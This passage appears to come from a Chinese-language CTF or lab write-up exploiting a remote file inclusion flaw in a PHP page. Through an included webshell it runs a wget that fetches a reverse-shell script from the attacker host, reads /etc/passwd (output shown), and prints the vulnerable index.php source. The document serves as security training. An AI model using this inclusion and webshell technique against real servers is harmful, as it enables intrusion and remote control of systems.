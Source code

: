 ```bash

http://192.168.10.129/?page=http://192.168.10.128/webshell.jpg&cmd=wget http://192.168.10.128/revshell.sh -O /tmp/revshell.sh
http://192.168.10.129/?page=http://192.168.10.128/webshell.jpg&cmd=ls -la /tmp/revshell.sh
# -rw-r--r-- 1 www-data www-data 36 Jun 18 14:11 /tmp/revshell.sh
# 无法修改权限。。。。。
```

看一下文件吧：

```bash
http://192.168.10.129/?page=http://192.168.10.128/webshell.jpg&cmd=cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
wall:x:1000:1000:wall,,,:/home/wall:/bin/bash
```

还是老老实实看源代码吧：

```bash
http://192.168.10.129/?page=http://192.168.10.128/webshell.jpg&cmd=cat index.php
```

```php
<?php
if (isset($_GET['page'])) {
$page = $_GET['page'];

if (!preg_match('/^(file|https?):\/\//i', $page)) {
echo 'nonono~';
return;
}

if (preg_match('/^https?:\/\/(www\.)?google\.com\/?$/i', $page)) {
echo 'gulugulu~';
return;
}

@include($page);
}
?>
```
